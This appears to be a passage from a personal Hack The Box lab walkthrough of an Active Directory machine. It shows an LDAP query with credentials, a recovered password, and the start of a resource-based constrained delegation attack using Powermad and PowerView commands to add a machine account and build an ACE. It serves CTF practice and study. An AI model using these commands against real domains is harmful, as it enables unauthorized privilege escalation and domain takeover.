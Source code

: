 with ldap we cannot:
psexec
winrm
see anything new on smb

# Foothold

```
ldapsearch -x -H ldap://10.129.123.182 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -x -b "DC=SUPPORT,DC=HTB" -s sub "(&(objectclass=user))"
```

![[Pasted image 20241101112444.png]]

```
Ironside47pleasure40Watchful
```

![[Pasted image 20241101112613.png]]

# Internal Recon

According to bloodhound support is a member of "Shared Support Accounts" which has GenericAll over DC.SUPPORT.HTB which will allow us to perform a resource based constrained delegation attack.

![[Pasted image 20241101113306.png]]

## Resource Based Constrained Delegation Attack


Abusing this primitive is possible through the Rubeus project.
https://github.com/Kevin-Robertson/Powermad
First, if an attacker does not control an account with an SPN set, Kevin Robertson's Powermad project can be used to add a new attacker-controlled computer account:

```
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
```

PowerView can be used to then retrieve the security identifier (SID) of the newly created computer account:

```
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
```

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE:

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```
